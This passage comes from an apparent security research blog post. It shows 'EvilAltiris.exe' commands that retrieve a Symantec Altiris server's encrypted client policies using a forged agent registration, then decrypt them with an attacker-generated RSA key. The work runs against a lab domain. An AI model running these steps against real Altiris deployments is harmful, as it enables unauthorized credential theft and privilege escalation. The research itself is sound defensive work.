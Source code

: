 On top of that, it didn't even break the current agent's registration. That was also unexpected, but I'll take it, and move on to the next step to see what happens.

```batch
"EvilAltiris.exe" GetClientPolicies
  /url:"http://srv02.foundation.local"
  /machine:"{59067291-0E3D-44DE-85FD-BDE4B5632648}"
  /type:"{493435f7-3b17-4c4c-b07f-c23e7ab7781f}"
  /outfile:"C:\Temp\policy_data_encrypted.dat"
```

![Retrieving the (encrypted) client policies](/assets/posts/2025-06-11-checking-symantec-account-credentials-privesccheck/evilaltiris-low-getclientpolicies.png)
*Retrieving the (encrypted) client policies*

The (encrypted) *Client Policies* were successfully retrieved, but will we be able to decrypt them? We are still unsure the server used the RSA keys we generated earlier. There's only one way to find out...

```batch
"EvilAltiris.exe" DecryptPolicy
  /data:"C:\Temp\policy_data_encrypted.dat"
  /key:"<RSAKeyValue><Modulus>uBBwrm4i0q [snip] 3In4vQ==</D></RSAKeyValue>"
```
